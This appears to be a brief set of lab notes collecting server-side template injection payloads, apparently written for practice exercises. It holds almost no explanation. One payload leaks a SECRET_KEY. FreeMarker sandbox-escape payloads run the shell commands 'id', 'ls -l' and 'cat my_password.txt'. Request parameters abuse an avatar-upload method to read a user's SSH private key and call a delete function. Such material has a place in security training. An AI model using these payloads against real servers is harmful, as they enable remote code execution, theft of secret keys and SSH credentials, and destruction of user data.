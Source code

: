 # SSTI : Server-side template injection 


Payload
```
<p>Hurry! Only {{product.stock}} left of {{product.name}} at {{product.price}}.{{settings.SECRET_KEY}}</p>
`






### Server-side template injection in a sandboxed environment
Payload 
```html

<p>Hurry! Only ${product.stock} left of ${product.name} at ${product.price}.Hello 

<#assign classloader=product.class.protectionDomain.classLoader>
<#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>
<#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>
<#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>
${dwf.newInstance(ec,null)("id")}



<#assign classloader=product.class.protectionDomain.classLoader>
<#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>
<#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>
<#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>
${dwf.newInstance(ec,null)("ls -l")}


<#assign classloader=product.class.protectionDomain.classLoader>
<#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>
<#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>
<#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>
${dwf.newInstance(ec,null)("cat my_password.txt")}

</p>
```


### Server-side template injection with a custom exploit

Payload
```
1.Upload txt file and see the error

PHP Fatal error:  Uncaught Exception: Uploaded file mime type is not an image: text/plain in /home/carlos/User.php:28
Stack trace:
#0 /home/carlos/avatar_upload.php(19): User->setAvatar(('/tmp/hello.txt', 'text/plain'))
#1 {main}
  thrown in /home/carlos/User.php on line 28


blog-post-author-display=user.setAvatar('/home/carlos/avatar_upload.php',+'image/png')&csrf=XOL4b5UsK71HH2PxvpjIBq81N1qdKSYX





blog-post-author-display=user.setAvatar('/home/carlos/.ssh/id_rsa',+'image/png')&csrf=XOL4b5UsK71HH2PxvpjIBq81N1qdKSYX


blog-post-author-display=user.gdprDelete()&csrf=XOL4b5UsK71HH2PxvpjIBq81N1qdKSYX



```